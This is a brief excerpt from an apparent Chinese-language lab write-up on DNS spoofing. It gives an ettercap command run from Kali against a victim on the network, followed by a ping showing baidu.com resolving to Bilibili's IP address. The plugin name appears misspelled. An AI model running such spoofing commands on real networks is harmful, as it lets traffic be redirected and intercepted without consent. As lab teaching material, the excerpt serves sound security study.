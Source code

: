 + 攻击者开始攻击。

```shell
(kali) sudo ettercap -T -q -i eth0 -P dns_proof
```

<img src=".\dns-attack-start.png" alt="dns-attack-start" style="zoom:67%;" />

+ 此时再在靶机上尝试访问百度，发现其IP地址变成了B站的IP地址。说明DNS欺骗成功。

```shell
(ubuntu)$ ping www.baidu.com
```
